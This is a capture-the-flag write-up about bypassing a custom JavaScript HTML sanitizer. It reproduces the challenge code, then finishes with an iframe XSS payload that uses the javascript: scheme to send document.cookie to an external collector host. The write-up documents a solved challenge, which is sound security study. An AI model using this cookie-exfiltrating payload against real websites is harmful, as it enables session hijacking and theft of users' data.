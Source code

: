 ## Owner:

> CaptainFreak

#### Solved?

 -Yes

#### Tried:

1. Straigh forward DOM XSS due using iframe.

#### Solutions:

1. 

Challenges had following code:

```javascript
function display(input) {
    document.documentElement.innerHTML = clean(input);
}

function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```

2. We cannot use script hence we need attributes to execute XSS, and only ['src', 'width', 'height', 'alt', 'class'] are allowed.

3. src can be a good place, and iframe's src can have javascript scheme.

4. <iframe src="javascript:document.location='https://burp.collab/?flag='+document.cookie"></iframe>



